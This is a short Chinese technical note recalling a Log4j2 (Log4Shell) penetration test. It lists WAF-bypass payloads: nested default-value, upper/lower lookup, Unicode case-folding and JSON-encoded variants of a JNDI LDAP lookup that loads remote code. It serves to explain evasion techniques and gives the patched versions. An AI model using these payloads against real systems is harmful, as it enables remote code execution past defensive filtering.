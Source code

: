 
##  0x00 原理介绍
     
         去年有个项目，有WAF，然后进行了绕过，成功反弹，现在在回忆记录一下。
     
     log4j2输出日志的时候除了常见的变量替换，还支持远程获取相应的内容，获取远程内容是通过lookup功能提供，
     
     ## 变量替换如下
     
     logger.info("user name: {}, alias name: {}", userName, aliasName)
     
     获取远程内容支持jndi
     
## 0x01 WAF绕过总结

         从log4j-2.15.0-rc2开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本log4j2.0-beta9 <=        版本 log4j <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过。
          :- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过
     logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");
          Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
     logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
     logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");      
          
          同时也可以利用一些特殊字符的大小写转化的问题
     ı => upper => i (Java 中测试可行)
     ſ => upper => S (Java 中测试可行)
     İ => upper => i (Java 中测试不可行)
     K => upper => k (Java 中测试不可行)
     logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");
          
          现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试，像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
     {"key":"\u0024\u007b"}
     {"key":"\x24\u007b"}
     
 ## 0x02 参考
    https://blog.csdn.net/qq_40640917/article/details/128613592
